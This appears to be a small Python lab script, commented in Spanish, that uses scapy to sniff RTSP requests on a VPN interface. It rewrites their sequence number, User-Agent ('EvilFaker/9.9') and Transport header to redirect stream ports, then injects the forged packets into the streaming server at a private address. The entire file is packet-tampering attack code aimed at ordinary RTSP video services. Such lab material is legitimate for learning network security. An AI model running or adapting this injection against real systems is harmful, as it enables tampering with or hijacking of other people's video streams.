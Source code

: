 # Redes
from scapy.all import *

# Configuraciones
IP_SERVIDOR = "10.147.19.221"
PUERTO_RTSP = 8554
INTERFAZ_VPN = "ztrf23gpht"

print(f"Escuchando paquetes RTSP TCP en interfaz '{INTERFAZ_VPN}' para modificar y reenviar...")

modificados = 0
LIMITE = 3       

def modificar_y_reenviar(pkt):
    global modificados

    if modificados >= LIMITE:
        return 

    if pkt.haslayer(TCP) and pkt.haslayer(Raw):
        original = pkt[Raw].load.decode(errors='ignore')

        if original.startswith(("OPTIONS", "ANNOUNCE", "SETUP", "DESCRIBE", "PLAY")):

            print("\n Paquete original interceptado:")
            print(original)

            modificado = re.sub(r"CSeq:\s*\d+", "CSeq: 9999", original)
            modificado = re.sub(r"User-Agent:.*", "User-Agent: EvilFaker/9.9", modificado)
            if "Transport:" in modificado:
                modificado = re.sub(
                    r"Transport:.*",
                    "Transport: RTP/AVP/UDP;unicast;client_port=9998-9999;mode=play",
                    modificado
                )

            print("\n Paquete modificado:")
            print(modificado)

            paquete = IP(dst=IP_SERVIDOR)/TCP(dport=PUERTO_RTSP, sport=RandShort(), flags="PA")/Raw(load=modificado.encode())
            send(paquete)

            print(" Paquete reenviado con modificaciones.")
            modificados += 1

sniff(
    iface=INTERFAZ_VPN,
    filter=f"tcp port {PUERTO_RTSP}",
    prn=modificar_y_reenviar,
    store=0
)
